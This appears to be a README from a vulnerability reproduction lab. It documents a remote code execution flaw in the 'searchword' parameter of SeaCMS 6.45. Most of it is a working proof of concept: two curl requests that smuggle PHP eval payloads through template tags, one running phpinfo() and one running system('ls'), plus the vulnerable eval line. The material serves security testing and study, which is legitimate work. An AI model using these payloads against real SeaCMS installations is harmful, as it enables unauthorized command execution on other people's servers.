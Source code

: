 ### searchword 代码执行漏洞

测试镜像

* src/seacms/6.45/

影响版本

* 6.45

参考链接

* [漏洞预警 | 海洋CMS（SEACMS）0day漏洞预警](http://www.freebuf.com/vuls/150042.html)

Poc

```
# phpinfo
curl 127.0.0.1/search.php -d 'searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=ph&9[]=pinfo();'

# 执行 ls 命令
curl 127.0.0.1/search.php -d 'searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=sy&9[]=stem("ls");'
```

关键代码

```
# payload 放在 IF 条件里，导致代码执行
@eval("if(".$strIf."){\$ifFlag=true;}else{\$ifFlag=false;}");
```

